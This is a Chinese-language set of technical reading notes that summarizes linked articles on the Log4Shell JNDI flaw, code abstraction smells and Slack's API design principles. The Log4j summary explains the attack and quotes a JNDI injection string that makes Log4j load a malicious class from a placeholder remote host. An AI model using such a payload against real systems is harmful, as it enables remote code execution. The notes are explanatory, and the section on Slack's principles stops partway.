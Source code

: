 # 技術筆記 20220103



## 資安議題
### [如何用JNDI實現REC漏洞](https://juejin.cn/post/7040455755899600910)
> 本文詳細說明如何利用JDNI中的RMI API達成log4j的REC攻擊，利用針對特定字串格式(ex: ${jndi:xxx.com.tw/evil})執行RMI的查找（lookup）(key: evil, value: MaliciousClass.class)請求達到惡意程式(MaliciousClass.class)的注入。

![](https://i.imgur.com/MelLGAx.jpg)

### [從監視攝影機理解 Log4j 跟 Log4Shell 漏洞](https://tech-blog.cymetrics.io/posts/huli/what-is-log4j-and-log4shell/)
>作者以監視器為例白話解釋了Log4j如何造成REC漏洞


## Programming Skill

### [如何做好抽象化？](https://zxuanhong.medium.com/%E5%A6%82%E4%BD%95%E5%81%9A%E5%A5%BD%E6%8A%BD%E8%B1%A1%E5%8C%96-%E5%B0%B1%E9%9D%A0%E4%B8%89%E9%9A%BB%E7%A9%BF%E9%9B%B2%E7%AE%AD-b56275a89e41)
>作者提出程式抽象化(Abstraction)三個Code Smell：Multifaceted Abstraction
、Imperative Abstraction、Missing Abstraction。
>* **Multifaceted Abstraction**：抽象化被指配過多責任，違反指配單一責任手段。
>* **Imperative Abstraction**：違反從Problem Domain找出entity手段。
>* **Missing Abstraction**：在系統中沒有任何抽象化，違反提供明確的邊界與身份手段。



## 系統設計

### [How We Design Our APIs at Slack](https://slack.engineering/how-we-design-our-apis-at-slack/?fbclid=IwAR2w43kLZ4uIl0uUEaYFjwT4iL6ik4nXUitk72lY48_pVJtW9gcDIhfy3uY)
>Slack工程師回顧過去五年，提出**6個API的設計原則**與**API開發過程的建議**。
>
>**1. Do one thing and do it well**: 
>&emsp;api應該有單一職責，追求越小的顆粒度，避免隨使用人數成長產生太昂貴的開銷。應把回傳值控制在有限的數量或者利用分頁去限制數量。
>
>**2. Make it fast and easy to get started**:
>&emsp;讓使用API的工程師容易調用。並且應該有易上手的API測試工具。
>
>**3. Strive for intuitive consistency**:
>&emsp;API的直觀性與一致性
>![img_2.png](img_2.png)
>&emsp;*A preview of Slack’s opinionated API Design Guidelines*
>
>**4. Return meaningful errors**
>&emsp;回應有意義的錯誤
>![img_1.png](img_1.png)
>- 回傳格式仔細且講求可讀性(Longer-form error messages )
>![img.png](img.png)
> - 保留原生的Exception, ex: HTTP headers Exception
> 
>**5. Design for scale and performance**
>&emsp;延展性與效能的設計
> - Paginate big collections
> - Do not nest big collections inside other big collections
> 這裡利用Slack拆API`channels.list`成`conversation.list`與`conversation.member`<br><br>
> <b>“Good enough” for you probably isn’t good enough for the rest of the world.<br>
> Part of the joy of an API is never knowing how another developer is going to use it.<br><br></b>
> - Rate limit your API ex: Bucket4j
> 
>**6. Avoid breaking changes**
>&emsp;

 

## WEB 3.0



